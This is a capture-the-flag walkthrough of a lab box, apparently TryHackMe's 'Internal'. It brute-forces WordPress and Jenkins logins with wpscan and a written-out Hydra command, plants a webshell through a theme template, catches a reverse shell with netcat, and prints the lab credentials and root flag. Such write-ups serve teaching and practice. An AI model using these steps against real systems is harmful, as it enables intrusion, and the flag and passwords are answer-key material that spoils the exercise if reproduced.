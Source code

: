 # INTERNAL

You have been assigned to a client that wants a penetration test  conducted on an environment due to be released to production in three  weeks. 

**Scope of Work**

The client requests  that an engineer conducts an external, web app, and internal assessment  of the provided virtual environment. The client has asked that minimal  information be provided about the assessment, wanting the engagement  conducted from the eyes of a malicious actor (black box penetration  test). The client has asked that you secure two flags (no location  provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

# NMAP RESULTS

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# GoBuster Results

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.46.87 
```

```
/blog                 (Status: 301) [Size: 309] [--> http://10.10.46.87/blog/]
/wordpress            (Status: 301) [Size: 314] [--> http://10.10.46.87/wordpress/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.46.87/javascript/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.46.87/phpmyadmin/]
/wp-content           (Status: 301) [Size: 320] [--> http://10.10.46.87/blog/wp-content/]
/wp-includes          (Status: 301) [Size: 321] [--> http://10.10.46.87/blog/wp-includes/]
/blog/wp-login.php
```

#### So we have Wordpress and phpMyAdmin installed..



### Going to /blog/wp-login.php gives us the default wordpress login. I tried admin:test, and Wordpress told us that that was an invalid **PASSWORD** for *admin*... this means that we can try and bruteforce the password.

> I used **wpscan** for this.

## wpscan found a password for admin.

> admin:my2boys

### Since we're wordpress admin we can edit the default template for index.php and spawn a webshell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4433           
listening on [any] 4433 ...
connect to [10.13.23.8] from (UNKNOWN) [10.10.46.87] 53888
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:24:26 up 56 min,  0 users,  load average: 0.02, 0.25, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

Let's grab linPEAS.

```
aubreanna is the name of the non default user on the box, we can try logging in with the 'my2boys' password.
Nope, password is different.
```

#### Interesting things:

>-rw-r----- 1 root www-data 68 Aug  3  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php                                                                                                                                                                                                                                       
>-rw-r----- 1 root www-data 0 Aug  3  2020 /var/lib/phpmyadmin/config.inc.php
>-rw-r----- 1 root www-data 527 Aug  3  2020 /etc/phpmyadmin/config-db.php
>-rw-r----- 1 root www-data 8 Aug  3  2020 /etc/phpmyadmin/htpasswd.setup

#### Hm, aubreanna is running Jenkins...

> aubrean+  1509  0.6 12.2 2587808 249364 ?      Sl   02:28   0:24          _ java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war

> I think that's a rabbit hole.

### Checking /opt we found a wp-save.txt which has aubreannas creds.

> aubreanna:bubb13guM!@#123

### Logging in as Aubreanna we found out more about that Jenkins install from earlier.

It's running on port 8080 in a docker container. If we set up an SSH tunnel we can access it from our machine!

We got a Jenkins login page, and upon trying default creds nothing happened, so let's try and brute force it with Hydra.

> hydra 127.0.0.1 -s 4444 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt

> ## [4444][http-post-form] host: 127.0.0.1   login: admin   password: spongebob

From here it's pretty easy, we can just set up a new project and run commands whatever user the jenkins install is running as.

> https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

Checking /opt revealed a note.txt...

```
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

![I'm in](https://cdn.dopl3r.com//media/memes_files/hacker-voice-m-in-jvT7Y.jpg)

```bash
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# cd /root
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
```

